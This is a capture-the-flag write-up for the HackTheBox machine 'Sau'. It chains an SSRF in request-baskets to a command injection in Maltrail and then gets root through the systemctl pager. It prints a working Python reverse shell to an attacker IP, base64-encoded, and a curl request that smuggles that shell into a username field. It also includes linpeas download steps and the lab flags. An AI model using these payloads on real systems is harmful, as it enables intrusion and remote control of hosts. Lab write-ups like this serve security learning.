

# Sau

Easy
{: .label .label-green }

request-baskets
{: .label .label-purple }

maltrail
{: .label .label-purple }

systemctl
{: .label .label-purple }

View on [Github](https://github.com/lamachin3/lamachin3.github.io/tree/main/writeups/HackTheBox/Sau)

# Enumeration

## Nmap scan

```bash
nmap -sCV 10.129.16.58
```



## Port 55555


Footer:


CVE-2023-27163

[https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3)

- Create a new basket test
- Configure the basket so that the SSRF can be reproduced. Here is what is the configuration settings of your basket should look like:


⚠️ Don’t forget to setup the proxy response

- Now by accessing url `http://<box_ip>:55555/test` we are directly targeting the web server that is hosted on port 80.

# Port 80

The app doesn’t load properly as our browser can access the different assets however we get one valuable information:


Looking on the internet we can quickly find an OS command injection on Maltrail v0.53: [https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)

To replace it we must change the basket settings to the following:


An then perform a curl request containing our command:

```bash
curl 'http://<box_ip>:55555/test' --data 'username=;`inject command here`'
```

Here is a quick test to see if the target can actually communicate back with and if the command injection works or not:  


# Initial Access

To get our initial access we need to start a reverse shell through the command injection. However when trying to do so we get errors due to the interpretation of our request:


To avoid this we will first encode our python reverse shell to base64 and then decode and execute it in our command injection:

[https://www.base64encode.org/](https://www.base64encode.org/)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.59",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE1LjU5Iiw0MjQyKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigic2giKSc=
```

And build our curl request with it:

[https://serverfault.com/questions/896695/how-do-i-run-a-command-from-a-base64-encoded-string-in-bash](https://serverfault.com/questions/896695/how-do-i-run-a-command-from-a-base64-encoded-string-in-bash)

```bash
curl 'http://10.129.14.164:55555/test' --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE1LjU5Iiw0MjQyKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigic2giKSc= | base64 -d | sh`'
```


We can now collect the user flag:


<details markdown="1">
<summary><b>user.txt</b></summary>
```bash
e202ef973e59eeece9997ae5e5fdea65
```
</details>

# Host Enumeration

## linpeas

Being on a linux host we run linpeas to automate some of the host enumeration tasks.

To do so:

- first download [linpeas.sh](http://linpeas.sh) from their webpage: http://linpeas.sh
- put in a directory which you can expose and start a basic python web server to expose the file system:

```bash
python -m http.server 8000
```

- from the target use wget to collect the script

```bash
wget <attacker_VPN_IP>:8000/linpeas.sh
```

- make the script executable and run it

```bash
chmod +x linpeas.sh
./linpeas.sh
```

One interesting thing comes out, we can run a systemctl command as root without password.


Following process `c` from the gtfobins project ([https://gtfobins.github.io/gtfobins/systemctl/#sudo](https://gtfobins.github.io/gtfobins/systemctl/#sudo)) we can achieve a privilege escalation to gain root access:


# Privilege Escalation

Using the fact that we can run the sudo command on systemctl without password we can used in the systemctl pager (probably less) mode with allows us to gain a shell access as root:

```bash
sudo /usr/bin/systemctl status trail.service
input> !sh
```

<details markdown="1">
<summary><b>root.txt</b></summary>
```bash
5651424d57f102eb30d2b111a28a785e
```
</details>